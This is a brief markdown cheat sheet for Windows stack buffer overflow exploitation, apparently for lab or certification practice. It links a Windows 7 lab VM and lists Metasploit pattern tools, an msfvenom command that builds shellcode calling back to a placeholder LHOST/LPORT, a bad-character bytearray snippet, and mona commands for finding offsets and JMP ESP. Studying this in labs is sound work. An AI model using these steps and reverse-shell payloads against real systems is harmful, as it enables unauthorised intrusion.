 # BOF

Win 7 OVA --> `https://mega.nz/file/EdFWXZCC#5P_qBh0b8FyTQGAEckbZKi1gqs31tOlKpY0B7Z1WYm0`

# Metasploit utilities

### Pattern

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb` \
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb`

### Payload

`msfvenom -p <SHELL> LHOST=<IP> LPORT=<PORT> -b "<BADCHARS>" -f python`

### Bytearray payload

`for x in range(1, 256):`\
`   print("\\x" + "{:02x}".format(x), end='')`


# Mona commands

### Set working directory
`!mona config -set workingfolder c:\mona\%p`

### Get EIP offset
`!mona findmsp -distance <OFFSET>`

### Create bytearray
`!mona bytearray -b "\x00\x0a"`

### Search for badchars
`!mona compare -f C:\mona\bytearray.bin -a <ESP_ADDRESS>`

### Search for JMP ESP 
`!mona jmp -r esp -cpb "<FOUND_BADCHARS>"`
